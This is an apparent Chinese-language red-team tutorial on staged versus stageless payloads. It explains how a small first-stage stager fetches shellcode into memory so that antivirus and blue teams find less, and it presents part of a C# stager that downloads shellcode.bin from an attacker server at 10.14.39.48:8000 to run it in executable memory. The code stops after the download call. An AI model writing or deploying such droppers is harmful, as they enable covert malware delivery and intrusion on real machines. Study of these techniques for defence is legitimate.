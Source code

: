 暂存有效负载通过使用中间外壳代码来工作，这些外壳代码充当导致执行最终外壳代码的步骤。这些中间外壳代码中的每一个都被称为暂存器，其主要目标是提供一种检索最终shellcode并最终执行它的方法。

分阶段一般分为两个阶段。第一阶段payload并不是直接与C2通信，因为第一阶段payload并没有shellcode，因此它可能不会被AV检测到，第一阶段会先从攻击者指定的位置，通过网络下载shellcode，然后将shellcode载入内存；第二阶段就是执行shellcode，最终连接到C2

### 优缺点

**在决定使用哪种类型的payload时，我们必须了解我们将要攻击的环境。每种有效payload类型都有优点和缺点，具体取决于特定的攻击场景。**

在无阶段有效载荷的情况下，您会发现以下优点：

- 生成的可执行文件包含使我们的shellcode工作所需的所有内容。
- 有效负载将在不需要其他网络连接的情况下执行。网络交互越少，您被 IPS 检测到的机会就越小。
- 如果要攻击网络连接非常有限的主机，则可能希望整个有效负载位于单个包中。

对于分阶段有效负载，您将拥有：

- 磁盘占用空间小。由于 stage0 只负责下载最终的外壳代码，因此它很可能很小。
- 最终的外壳代码不会嵌入到可执行文件中。如果您的有效负载被捕获，蓝队将只能访问 stage0 存根，仅此而已。
- 最终的shellcode加载到内存中，永远不会接触磁盘。这使得它不容易被AV解决方案检测到。
- 您可以对许多外壳代码重复使用相同的 stage0 滴管，因为您可以简单地替换提供给受害机器的最终外壳代码。

总之，我们不能说任何一种类型都比另一种更好，除非我们为其添加一些上下文。一般来说，无阶段有效载荷更适合具有大量外围安全性的网络，因为它不依赖于从互联网下载最终的shellcode。例如，如果您正在对封闭网络环境中的计算机执行 USB 丢弃攻击，而您知道您将无法将连接恢复到您的计算机，那么无阶段是可行的方法。

另一方面，当您希望将本地计算机上的占用空间减少到最低限度时，分阶段有效负载非常有用。由于它们在内存中执行最终有效负载，因此某些 AV 解决方案可能会发现更难检测到它们。它们也非常适合避免暴露您的外壳代码（通常需要相当长的时间来准备），因为外壳代码不会在任何时候（作为工件）放入受害者的磁盘中。

C# Steger:

```csharp
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "http://10.14.39.48:8000/shellcode.bin";
    Stager(url);
  }

  public static void Stager(string url)
  {
    WebClient wc = new WebClient();
    byte[] shellcode = wc.DownloadData(url);

```